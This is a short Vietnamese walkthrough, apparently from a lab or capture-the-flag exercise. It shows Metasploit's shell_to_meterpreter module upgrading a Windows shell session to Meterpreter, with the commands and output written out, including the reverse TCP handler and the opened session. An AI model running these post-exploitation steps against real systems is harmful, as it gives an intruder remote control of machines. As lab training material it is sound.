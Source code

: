  Như vậy, **các option cần thay đổi** là:

* `SESSION` (bắt buộc)
* `LHOST` (nếu nó không tự detect đúng IP của bạn)

---

**Set options**
>sessions -l


```bash
msf6 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type               Information                      Connection
  --  ----  ----               -----------                      ----------
  1         shell x64/windows  Shell Banner: Microsoft Windows  10.10.175.78:4444 -> 10.10.61.2:
                                [Version 6.1.7601] -----        49196 (10.10.61.2)
```


* **Session 1** → `shell x64/windows` trên `Microsoft Windows [Version 6.1.7601]`

---

Giờ set option cho module

```bash
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/shell_to_meterpreter) > set LHOST 10.10.175.78
LHOST => 10.10.175.78
```
---

**Chạy module để chuyển sang Meterpreter**

```bash
run
```

```bash
msf6 post(multi/manage/shell_to_meterpreter) > run
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.175.78:4433 
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
[*] Sending stage (203846 bytes) to 10.10.61.2
[*] Meterpreter session 2 opened (10.10.175.78:4433 -> 10.10.61.2:49239) at 2025-08-19 10:46:35 +0100
[*] Stopping exploit/multi/handler
```

---

**Sau khi quá trình chuyển đổi shell meterpreter hoàn tất, hãy chọn phiên đó để sử dụng.**


